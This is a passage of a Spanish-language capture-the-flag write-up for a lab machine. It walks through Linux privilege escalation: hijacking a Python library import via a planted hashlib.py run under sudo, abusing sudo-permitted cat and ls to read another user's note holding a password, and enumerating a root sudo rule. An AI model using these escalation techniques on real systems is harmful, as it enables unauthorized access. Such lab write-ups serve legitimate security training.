 Sabiendo que python3 buscara primero por defecto en el directorio actual de trabajo:
```bash
python3 -c 'import sys; print(sys.path)'
['', '/usr/lib/python311.zip', '/usr/lib/python3.11', '/usr/lib/python3.11/lib-dynload', '/usr/local/lib/python3.11/dist-packages', '/usr/lib/python3/dist-packages']
```

Ya creado el script: **( hashlib.py )** que contiene nuestras instrucciones para poder migrar a este usuario, Ejecutamos
```bash
# Comando para escalar al usuario: ( aria )
sudo -u aria /usr/bin/python3 /home/jon/.mensaje.py
```
###### Usuario `[ Aria ]`:
Ahora que tenemos una shell procedemos a enumerar el sistema para migrar a **daenerys**
```bash
sudo -l

User aria may run the following commands on 0a1e62a2caad:
    (daenerys) NOPASSWD: /usr/bin/cat, /usr/bin/ls # Tenemos una via potencial de ver los archivos de este usuario
```

Ahora nos aprovecharemos para **listar** y ver el contenido de sus **archivos** de este usuario
```bash
sudo -u daenerys /usr/bin/ls /home/daenerys

mensajeParaJon # Resultado
```

Ahora usaremos el otro binario para ver su contenido:
```bash
sudo -u daenerys /usr/bin/cat /home/daenerys/mensajeParaJon
```

El contenido es:
```bash
Aria estare encantada de ayudar a Jon con la guerra en el norte, siempre y cuando despues Jon cumpla y me ayude a  recuperar el trono de hierro. 
Te dejo en este mensaje la contraseña de mi usuario por si necesitas llamar a uno de mis dragones desde tu ordenador.

!drakaris!
```

```bash
# Comando para escalar al usuario: ( daenersy )
su daenerys # ( drakaris )
```

###### Usuario `[ daenersy ]`:
Ahora que tenemos una shell procedemos a enumerar el sistema para migrar a **root**
```bash
sudo -l

User daenerys may run the following commands on 0a1e62a2caad:
    (ALL) NOPASSWD: /usr/bin/bash /home/daenerys/.secret/.shell.sh
```
